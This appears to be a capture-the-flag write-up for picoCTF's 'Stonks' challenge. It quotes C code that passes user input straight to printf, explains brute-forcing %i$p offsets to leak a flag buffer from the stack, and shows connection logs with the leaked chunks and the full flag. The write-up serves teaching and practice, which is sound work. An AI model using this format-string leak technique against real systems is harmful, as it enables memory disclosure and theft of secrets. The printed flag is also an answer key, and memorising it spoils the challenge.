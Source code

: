 # Stonks

Format-string Exploit

## checksec

No binary provided

## Concept

The format-string vulnerability occurs here

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

where there is a local buffer that contains the flag (the following code block occurs within the same stack frame)

```c
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

We thus brute-force the offset i.e. the `i` in `%i$p` that will leak the `api_buf` char array. 

## Brute-forcing the Variable-Arg Frame Offset of the Flag Buffer

As shown, the va frame offset of the flag buffer is from `%15$p` to `%24$p`. 

```bash
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 15, Output: b'pico'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 16, Output: b'CTF{'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 17, Output: b'I_l0'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 18, Output: b'5t_4'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 19, Output: b'll_m'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 20, Output: b'y_m0'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 21, Output: b'n3y_'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 22, Output: b'6148'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 23, Output: b'be54'!
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
Offset: 24, Output: b'}\x00\xfe\xff'!
[*] Closed connection to mercury.picoctf.net port 59616
```

As you might have realized, not all tries were shown. 

## Flag

After the offsets were found, it was just a matter of wacky Python scripting to concatenate the bits and pieces together

```bash
[+] Opening connection to mercury.picoctf.net on port 59616: Done
b'picoCTF{I_l05t_4ll_my_m0n3y_6148be54}\x00\xf5\xff'
[*] Closed connection to mercury.picoctf.net port 59616
```
